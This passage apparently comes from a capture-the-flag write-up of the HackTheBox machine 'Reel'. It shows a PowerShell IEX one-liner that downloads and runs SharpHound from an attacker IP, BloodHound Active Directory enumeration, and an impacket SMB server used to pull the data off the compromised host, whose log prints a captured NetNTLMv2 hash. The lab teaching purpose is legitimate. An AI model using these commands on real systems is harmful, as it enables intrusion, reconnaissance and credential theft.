 Then we download it to our compromised machine.  

{% highlight powershell %}
PS C:\Users\tom> IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.4:8000/SharpHound.ps1')
{% endhighlight %} 

And now we can run the Invoke-BloodHound function to gather the needed data, but first we’ll need to move to a directory in which we can write without risk of overwriting anything or not having write permissions:

{% highlight powershell %}
PS C:\Users\tom> Invoke-BloodHound -CollectionMethod All
Initializing BloodHound at 3:20 AM on 8/19/2019                                                   
Resolved Collection 
Methods to Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM
Starting Enumeration for HTB.LOCAL
Status: 84 objects enumerated (+84 Infinity/s --- Using 101 MB RAM )
Finished enumeration for HTB.LOCAL in 00:00:00.4372083
0 hosts failed ping. 0 hosts timedout.                                                            

Compressing data to C:\Users\tom\20190819032010_BloodHound.zip.
You can upload this file directly to the UI.   
Finished compressing files!
{% endhighlight %} 

Let’s go big and use -CollectionMethod All since the note.txt file mentioned the default query didn’t find anything, so we’ll need all the data we are able to gather. After some time, the command ends and we see several files were created: .json files, a .bin file and a .zip file. What BloodHound needs is the ZIP file (which contains all the generated JSONs).  
For this we are going to mount an SMB server in our kali to copy our ZIP.  

{% highlight zsh %}
┌─[root@BinaryChaos] - [/home/gerh/Escritorio/Prometheus/Ethic4l-Hacking/Operations/Premium/Reel] - [Sun Jun 23, 03:43]
└─[$]> # impacket-smbserver share ./
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.77,53670)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User tom\REEL authenticated successfully
[*] tom::HTB:4141414141414141:f32c125f98f07b745854b6fecc485306:0101000000000000002c1abf9f29d50198eb9ab4ce28e01f0000000001001000450056004d00640074004f006b007a0002001000490068004a007800430054004e006f0003001000450056004d00640074004f006b007a0004001000490068004a007800430054004e006f0007000800002c1abf9f29d5010600040002000000080030003000000000000000000000000030000069dbc64191c63e04554ebe76cdc838449ef5e8448f9f556479081efefab5cba80a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0033003000000000000000000000000000
{% endhighlight %} 
